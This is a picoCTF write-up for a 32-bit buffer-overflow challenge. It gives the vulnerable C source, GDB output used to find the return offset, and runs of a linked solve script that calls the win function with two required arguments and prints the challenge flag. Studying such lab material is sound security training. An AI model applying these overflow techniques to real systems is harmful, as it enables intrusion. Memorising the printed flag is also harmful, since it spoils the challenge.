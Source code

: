 ### Binary Exploitation

### Source: PICOCTF

### Basic File Checks

```
┌──(venv)─(mark㉿haxor)-[~/Desktop/CTF/Pico/bof2]
└─$ file vuln    
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=1c57f0cbd109ed51024baf11930a5364186c28df, for GNU/Linux 3.2.0, not stripped
                                                                                                        
┌──(venv)─(mark㉿haxor)-[~/Desktop/CTF/Pico/bof2]
└─$ checksec vuln
[!] Could not populate PLT: invalid syntax (unicorn.py, line 110)
[*] '/home/mark/Desktop/CTF/Pico/bof2/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

So we're working with a x86 binary. The protection enabled is just NX meaning if we get a buffer overflow we won't be able to inject shellcode to the stack and execute it

Source code is given

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

So this is also a ret2win chall but this time around we need to pass in 2 arguments before we get the flag

As usual lets get the offset

I'll use gdb then automate with pwntool

I won't explain my process here as i've severally repeated it in my other chall i wrote about

```
┌──(venv)─(mark㉿haxor)-[~/Desktop/CTF/Pico/bof2]
└─$ gdb -q vuln
GEF for linux ready, type `gef' to start, `gef config' to configure
90 commands loaded and 5 functions added for GDB 12.1 in 0.00ms using Python engine 3.11
Reading symbols from vuln...
(No debugging symbols found in vuln)
gef➤  disass vuln
Dump of assembler code for function vuln:
   0x08049338 <+0>:     endbr32 
   0x0804933c <+4>:     push   ebp
   0x0804933d <+5>:     mov    ebp,esp
   0x0804933f <+7>:     push   ebx
   0x08049340 <+8>:     sub    esp,0x74
   0x08049343 <+11>:    call   0x80491d0 <__x86.get_pc_thunk.bx>
   0x08049348 <+16>:    add    ebx,0x2cb8
   0x0804934e <+22>:    sub    esp,0xc
   0x08049351 <+25>:    lea    eax,[ebp-0x6c]
   0x08049354 <+28>:    push   eax
   0x08049355 <+29>:    call   0x80490f0 <gets@plt>
   0x0804935a <+34>:    add    esp,0x10
   0x0804935d <+37>:    sub    esp,0xc
   0x08049360 <+40>:    lea    eax,[ebp-0x6c]
   0x08049363 <+43>:    push   eax
   0x08049364 <+44>:    call   0x8049120 <puts@plt>
   0x08049369 <+49>:    add    esp,0x10
   0x0804936c <+52>:    nop
   0x0804936d <+53>:    mov    ebx,DWORD PTR [ebp-0x4]
   0x08049370 <+56>:    leave  
   0x08049371 <+57>:    ret    
End of assembler dump.
gef➤  b *0x08049370
Breakpoint 1 at 0x8049370
gef➤  r
Starting program: /home/mark/Desktop/CTF/Pico/bof2/vuln 
[*] Failed to find objfile or not a valid file format: [Errno 2] No such file or directory: 'system-supplied DSO at 0xf7fc7000'
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Please enter your string: 
pwnerhacker
pwnerhacker

Breakpoint 1, 0x08049370 in vuln ()


[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0xc       
$ebx   : 0x804c000  →  0x804bf10  →  <_DYNAMIC+0> add DWORD PTR [eax], eax
$ecx   : 0xf7e1e9b8  →  0x00000000
$edx   : 0x1       
$esp   : 0xffffcfc0  →  0xf7e1dda0  →  0xfbad2887
$ebp   : 0xffffd038  →  0xffffd058  →  0x00000000
$esi   : 0x80493f0  →  <__libc_csu_init+0> endbr32 
$edi   : 0xf7ffcb80  →  0x00000000
$eip   : 0x8049370  →  <vuln+56> leave 
$eflags: [zero carry PARITY adjust SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63 
───────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffcfc0│+0x0000: 0xf7e1dda0  →  0xfbad2887    ← $esp
0xffffcfc4│+0x0004: 0xf7e1dde7  →  0xe1e9b80a
0xffffcfc8│+0x0008: 0x00000001
0xffffcfcc│+0x000c: "pwnerhacker"
0xffffcfd0│+0x0010: "rhacker"
0xffffcfd4│+0x0014: 0x72656b ("ker"?)
0xffffcfd8│+0x0018: 0xf7c80aa9  →  <__overflow+9> add ebx, 0x19c54b
0xffffcfdc│+0x001c: 0xf7e1ba40  →  0x00000000
─────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
    0x8049369 <vuln+49>        add    esp, 0x10
    0x804936c <vuln+52>        nop    
    0x804936d <vuln+53>        mov    ebx, DWORD PTR [ebp-0x4]
 →  0x8049370 <vuln+56>        leave  
    0x8049371 <vuln+57>        ret    
    0x8049372 <main+0>         endbr32 
    0x8049376 <main+4>         lea    ecx, [esp+0x4]
    0x804937a <main+8>         and    esp, 0xfffffff0
    0x804937d <main+11>        push   DWORD PTR [ecx-0x4]
─────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln", stopped 0x8049370 in vuln (), reason: BREAKPOINT
───────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x8049370 → vuln()
[#1] 0x80493dd → main()
────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  search-pattern pwnerhacker
[+] Searching 'pwnerhacker' in memory
[+] In '[heap]'(0x804d000-0x806f000), permission=rw-
  0x804d1a0 - 0x804d1ad  →   "pwnerhacker\n" 
[+] In '[stack]'(0xfffdd000-0xffffe000), permission=rw-
  0xffffcfcc - 0xffffcfd7  →   "pwnerhacker" 
gef➤  i f
Stack level 0, frame at 0xffffd040:
 eip = 0x8049370 in vuln; saved eip = 0x80493dd
 called by frame at 0xffffd070
 Arglist at 0xffffd038, args: 
 Locals at 0xffffd038, Previous frame's sp is 0xffffd040
 Saved registers:
  ebx at 0xffffd034, ebp at 0xffffd038, eip at 0xffffd03c
gef➤ 
```

Doing the math we get the offset `0xffffd03c - 0xffffcfcc = 0x70`

Jumping to the win function will not give us the flag

This is because the win function needs to argument to be passed for it to print the flag `win(param_1, param2)` where param_1 = 0xCAFEF00D and param_2 = 0xF00DF00D

And it does an if check to validate the parameter passed

```
if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
```

Here's my solve script [Exploit](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/picoctf/bo2/exploit.py)

Running it locally

```
└─$ python2 exploit.py
[!] Could not populate PLT: invalid syntax (unicorn.py, line 110)
[+] Starting local process './vuln': pid 33669
[*] Switching to interactive mode
[*] flag{fake_flag_for_testing}
```

It worked, so i'll run it on the remote server

```
┌──(venv)─(mark㉿haxor)-[~/Desktop/CTF/Pico/bof2]
└─$ python2 exploit.py REMOTE saturn.picoctf.net 50844    
[!] Could not populate PLT: invalid syntax (unicorn.py, line 110)
[+] Opening connection to saturn.picoctf.net on port 50844: Done
[*] Switching to interactive mode
[*] picoCTF{argum3nt5_4_d4yZ_31432deb}
[*] Closed connection to saturn.picoctf.net port 50844
```

And we're done 

<br> <br>
[Back To Home](../index.md)
